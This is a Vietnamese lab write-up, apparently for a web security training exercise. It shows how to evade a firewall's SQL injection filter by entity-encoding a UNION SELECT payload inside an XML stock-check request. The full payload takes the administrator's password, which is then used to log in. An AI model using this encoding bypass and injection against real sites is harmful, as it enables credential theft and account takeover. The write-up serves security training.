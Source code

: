 > [color=#ea4f9a] Trang web có 1 Filewall phòng chống khai thác SQL, chúng ta cần tìm cách bypass.

Khi sử dụng tính năng đó, ta thấy payload mà nó POST lên server như sau:
>![](https://i.imgur.com/lu2OdwF.png)

Khi ta thử sửa đổi giá trị của `productId` thì nhận được response như sau:
>![](https://i.imgur.com/gQFqBtG.png)

Xét thêm ta thấy tham số `StoreId` được server xử lý.
>![](https://i.imgur.com/1TgtHI5.png)

Ta sẽ tận dụng tham số này để khai thác, tuy nhiên cần bypass Firewall trước. 
Thay vì đưa thẳng payload vào tham số, ta sẽ encode nó trước với dec_entities
```xml!
<@dec_entities>
    1 UNION SELECT 'A'
    <@/dec_entities>
```
Và ta thấy kết quả trả về như sau:
>![](https://i.imgur.com/HSo1yXo.png)

Sửa lại phần select để lấy password của admin, ta có payload như sau
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        <@dec_entities>
            1 UNION SELECT password from users where username='administrator'
            <@/dec_entities>
    </storeId>
</stockCheck>
```

Và password được trả về
>![](https://i.imgur.com/vXbGz3M.png)

Đăng nhập là xong
>![](https://i.imgur.com/C9yEDqK.png)

<hr>
